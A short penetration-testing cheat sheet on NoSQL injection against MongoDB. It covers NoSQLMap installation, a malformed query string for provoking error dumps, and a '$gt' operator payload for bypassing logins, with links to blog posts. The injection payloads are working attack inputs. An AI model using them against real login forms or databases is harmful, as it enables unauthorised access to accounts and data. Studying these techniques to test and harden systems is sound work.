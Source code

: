 # Nosql-Injections

Nosql-databases like MongoDB is becoming more and more common. So this needs to be expanded.

## NoSQLMAP

NoSQLMap can help you to automate NoSQLDatabase enumeration.

* NoSQLMap Installation

  ```text
  git clone https://github.com/codingo/NoSQLMap.git
  cd NoSQLMap/
  ls
  pip install couchdb
  pip install pbkdf2
  pip install ipcalc
  python nosqlmap.py
  ```

* Often you can create an exception dump message with MongoDB using a malformed NoSQLQuery such as:

```text
  `a'; return this.a != 'BadData’'; var dummy='!`
```

## Login bypass

Basically change the query to this.

```javascript
{"user":{"$gt": ""},"pass":{"$gt": ""}}
```

[http://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html](http://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html) [http://blog.websecurify.com/2014/08/attacks-nodejs-and-mongodb-part-to.html](http://blog.websecurify.com/2014/08/attacks-nodejs-and-mongodb-part-to.html)

